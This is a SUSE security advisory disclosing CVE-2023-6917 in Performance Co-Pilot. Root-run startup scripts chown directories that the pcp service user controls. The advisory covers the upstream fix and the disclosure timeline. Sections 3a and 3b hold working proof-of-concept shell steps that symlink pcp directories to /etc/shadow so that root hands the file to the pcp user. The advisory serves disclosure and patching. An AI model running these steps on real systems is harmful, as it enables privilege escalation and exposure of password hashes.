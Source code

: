 ```yaml
---
layout: post
author: <a href='mailto:matthias.gerstner@suse.de'>Matthias Gerstner</a>
title:  "Performance Co-Pilot (pcp): Unsafe use of Directories in /var/lib/pcp and /var/log/pcp breaks pcp Service User Isolation (CVE-2023-6917)"
date:   2024-02-27
tags:   CVE local
excerpt: "The pcp performance analysis toolkit operates as root in directories controlled by the pcp service user, which allows to escalate privileges from pcp user to root."
---
```


1) Introduction
===============

[Performance Co-Pilot (pcp)][pcp-website] is a performance analysis toolkit
that allows to gather and evaluate data on a local system and also share this
data over the network in a distributed manner.

During routine reviews we noticed issues in pcp on Linux with directory
permissions that allow to locally escalate privileges from the _pcp_ service
user to _root_.

These findings are based on the 5.3.7 version release of pcp. CVE-2023-6917
has been assigned for this class of issues in pcp.

2) Service User And Directory Permissions
=========================================

The systemd services shipped with pcp run with mixed privileges. Some use only
limited _pcp_ user/group privileges, like "pmie_check.service". Others like
"pmcd.service" run with full root privileges. The `pmcd` daemon implements the
networking logic of pcp. It drops privileges from _root_ to _pcp_ during
startup.

The different pcp programs use a shared directory structure:

- /var/lib/pcp/tmp owned by `pcp:pcp` mode `0775`
- /var/log/pcp     owned by `pcp:pcp` mode `0775`

When privileged processes running as _root_ access files in directories or
directory trees controlled by unprivileged users, then easily security issues
can result from this. For the directories listed above, we quickly found the
two exploitable issues that are described in the following sections.

3a) Startup Script for `pmcd` runs chown for `$PCP_TMP_DIR/pmlogger`
====================================================================

The "pmcd.service" runs with root privileges and executes the bash script
"/usr/libexec/pcp/lib/pmcd" (named "rc_pmcd" in the Git source repository).
Within this script the [following code][pmcd-snippet] runs as part of the
start routine, found in function `_reboot_setup()`:

     if [ ! -d "$PCP_TMP_DIR/pmlogger" ]
     then
         mkdir -p -m 775 "$PCP_TMP_DIR/pmlogger"
         chown $PCP_USER:$PCP_GROUP "$PCP_TMP_DIR/pmlogger"
         if which restorecon >/dev/null 2>&1
         then
             restorecon -r "$PCP_TMP_DIR"
         fi
     else

`$PCP_TMP_DIR` in this context refers to "/var/lib/pcp/tmp", owned by `pcp:pcp`
mode `0775`. Since the shell code above does not exit on errors, a compromised pcp
user doesn't even have to win a race condition to perform a symlink attack.
The following exploit works:

    # simulate a compromised pcp user
    root # sudo -u pcp -g pcp bash
    pcp  $ cd /var/lib/pcp/tmp
    pcp  $ rm -r pmlogger
    pcp  $ ln -s /etc/shadow pmlogger
    pcp  $ exit
    root # systemctl start pcmd.service
    root # ls -l /etc/shadow
    -rw-r----- 1 pcp pcp 1.2K Dec  7 15:47 /etc/shadow

3b) Startup Script for `pmproxy` runs chown in `$RUN_DIR`
=========================================================

The "pmproxy.service" runs with root privileges and executes the bash script
"/usr/libexec/pcp/lib/pmproxy" (named `rc_pmproxy` in the Git source
repository). Within this script the [following code runs][pmproxy-snippet] as
part of the start (and other) routines:

    # create directory which will serve as cwd
    if [ ! -d "$RUNDIR" ]
    then
        mkdir -p -m 775 "$RUNDIR"
        chown $PCP_USER:$PCP_GROUP "$RUNDIR"
    fi

`$RUN_DIR` in this context refers to "/var/log/pcp/pmproxy". "/var/log/pcp" is
owned by `pcp:pcp` mode `0775`. Similar to the exploit described in section
3a), no race condition has to be won to exploit this:

    # simulate a compromised pcp user
    root # sudo -u pcp -g pcp bash
    pcp  $ cd /var/log/pcp
    pcp  $ rm -rf pmproxy
    pcp  $ ln -s /etc/shadow pmproxy
    pcp  $ exit
    root # systemctl start pmproxy.service
    root # ls -l /etc/shadow
    -rw-r----- 1 pcp pcp 1.2K Dec  7 15:47 /etc/shadow

4) Summary
==========

We only picked two of the more obvious security issues that result from _root_
processes operating on these pcp owned directories. There are likely more
issues of the same class lingering in the pcp scripts that run as _root_. Given
this, the user separation of _pcp_ can be considered nonexistent in its
current form, and the _pcp_ user should be treated equal to _root_.

The _pcp_ service user is also used for the network facing `pmcd` component,
thus these issues strongly impact defense in depth for pcp, for the scenario
when an attacker finds a way to exploit the network daemon.

5) Bugfix
=========

Upstream performed a wider redesign of the privilege separation handling in
pcp components. The [pull request][pcp-bugfix-pr] corresponding to this
contains a large number of commits. It is difficult to isolate any simple
patches from that.

In [our Bugzilla bug][bugzilla-commit-list] that tracks this issue,
I attempted to identify the subset of commits relevant to this issue, to help
with backporting.

6) Timeline
===========

|2023-12-13|I reported the findings to pcp-maintainers@groups.io offering coordinated disclosure.|
|2023-12-14|The Red Hat Security Team was added to the discussion.|
|2023-12-15|After some initial disagreement whether this qualifies as an actual security issue, an agreement was found that it is a change of security scope and deserves a CVE assignment.|
|2023-12-15|An upstream author suggested mid of February as a publication date, for which time a release for pcp had been planned anyway.|
|2023-12-18|Red Hat Security assigned CVE-2023-6917 to track the issue(s).|
|2024-01-01|Upstream discussed some initial changes to address the issue(s) in the mail thread and I tried to give some feedback about them.|
|2024-02-20|Communication about the publication process died down, and I learned from our packager that the [Pull Request][pcp-bugfix-pr] containing the fixes had already been public for some time. It seems no clear embargo had been established for the coordinated release, there had been contradicting statements.|
|2024-02-27|After verifying with the upstream authors that publication is okay I finalized my report and published all information.|

7) References
=============

- [PCP website][pcp-website]
- [Upstream Pull Request that Addresses the Issues][pcp-bugfix-pr]
- [List of Relevant Bugfix Commits in our SUSE Bugzilla][bugzilla-commit-list]

[pcp-website]: https://pcp.io/
[pcp-bugfix-pr]: https://github.com/performancecopilot/pcp/pull/1873
[bugzilla-commit-list]: https://bugzilla.suse.com/show_bug.cgi?id=1217826#c24
[pmcd-snippet]: https://github.com/performancecopilot/pcp/blob/5.3.7/src/pmcd/rc_pmcd#L134
[pmproxy-snippet]: https://github.com/performancecopilot/pcp/blob/5.3.7/src/pmproxy/rc_pmproxy#L264
